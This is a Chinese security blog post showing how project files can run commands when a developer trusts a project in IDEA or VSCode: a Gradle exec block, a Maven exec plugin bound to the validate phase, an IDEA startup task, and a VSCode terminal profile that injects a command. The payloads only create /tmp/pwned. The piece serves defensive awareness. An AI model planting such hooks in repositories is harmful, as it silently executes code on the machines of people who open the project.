 ```yaml
---
title: 利用项目配置文件进行 RCE - IDE Trust Project 功能探究
date: 2021-10-02 20:43:33
tags: [misc]
---
```


最近发现在打开 IDEA, VSCode 项目时候, 都增加了 "信任此项目的提示". 结合这些 IDE 的特点, 确实可能存在在打开项目时产生 RCE 的风险, 特别是进行代码审计的安全人员, 会经常打开未知的项目. 正常人肯定不会贸然的执行未知的代码, 但是对于打开项目时这个弹出的框框, 可能并不会特别在意. 接下来分析一些通过这些配置来进行 RCE 的方法.  

![](https://i.loli.net/2021/10/02/ToPQhtryzgDUdCs.png#center)

<!--more-->

## IDEA

### Gradle

最先想到的是 java 项目常用的构建工具 gradle. 它的 build 方式不同于 maven 的那种声明式 xml, 而是通过运行一个 build.gradle 脚本, 类似于 python 安装模块时的 setup.py. 我们自然可以通过编写恶意的 build.gradle 脚本来达到 RCE 的目的, 示例如下  

```gradle
plugins {
    id 'java'
}

group 'org.example'
version '1.0-SNAPSHOT'

exec {
    commandLine 'touch', '/tmp/pwned'
}

repositories {
    mavenCentral()
}

dependencies {
    testImplementation 'org.junit.jupiter:junit-jupiter-api:5.7.0'
    testRuntimeOnly 'org.junit.jupiter:junit-jupiter-engine:5.7.0'
}

test {
    useJUnitPlatform()
}
```

其中  
```
exec {
    commandLine 'touch', '/tmp/pwned'
}
```
即是 RCE 的部分, 非常的简单直接  
如果打开 Safe Mode, 是不会运行 build.gradle 的, 保证了用户的安全, 但是如果信任了这个项目, IDEA 就会自动运行 build.gradle  

### Maven

maven 在经过测试后, 似乎 IDEA 并没有真正的运行 `mvn` 命令, 在用户 0-click 的情况下, 似乎只是解析了 pom.xml, 然后下载依赖, 分析 main class, 并没有真正进行 maven 的 lifecycle  
但是如果目标会进行 mvn package 等操作, 我们可以通过 mvn plugin 插件达到 RCE 的目的.  

一个示例如下  
```xml
<plugins>
    <plugin>
    <artifactId>exec-maven-plugin</artifactId>
    <version>3.0.0</version>
    <groupId>org.codehaus.mojo</groupId>
    <executions>
        <execution>
        <id>exec</id>
        <phase>validate</phase>
        <goals>
            <goal>exec</goal>
        </goals>
        </execution>
    </executions>
    <configuration>
        <executable>touch</executable>
        <arguments>
        <argument>/tmp/pwned</argument>
        </arguments>
    </configuration>
    </plugin>
</plugins>
```
`exec-maven-plugin` 是一个现成的执行命令的 mvn plugin, 我们将其制定在 mvn phase = validate 时执行, 这样在目标进行 package 时就会执行 `touch /tmp/pwned` (一个可能受害的场景是打包成 jar 然后复制到 docker 里面运行)  

### IDEA 本身

除了这些常用的 build 工具, IDEA 本身也自带一个 `Startup Task` 功能, 在 `Tools -> Startup Task` 中可以找到, 我们可以自己添加一个 Shell Script 任务. 这些配置会保存在 `.idea/workspace.xml` 中, 并且这个利用方式应该可以给 Jetbrains 全家桶来使用, 会在项目打开时自动运行  

![](https://i.loli.net/2021/10/02/51Hy7hcepfXiGgC.png#center)  

## VSCode

VSCode 本身功能较少, 大部分功能其实靠插件来实现, 所以我找到最泛用的是替换默认的 Shell 选项, 在 `.vscode/settings.json` 中添加  

```json
{
    "terminal.integrated.defaultProfile.linux": "bash",
    "terminal.integrated.profiles.linux": {
        "bash": {
            "path": "bash",
            "icon": "terminal-bash",
            "args": ["-c", "touch /tmp/pwned; bash"]
        },
        "zsh": {
            "path": "zsh",
        },
        "fish": {
            "path": "fish"
        },
        "tmux": {
            "path": "tmux",
            "icon": "terminal-tmux"
        },
        "pwsh": {
            "path": "pwsh",
            "icon": "terminal-powershell"
        }
    }
}
```

这样打开 vscode 的终端时, 就会无感执行命令  

## 总结

最后, 这些 IDE 丰富的功能确实留下来非常多的攻击面, 对陌生的项目最好好看看再进行 `Trust`. 不然漏洞还没找到, 自己先被对方反杀了.  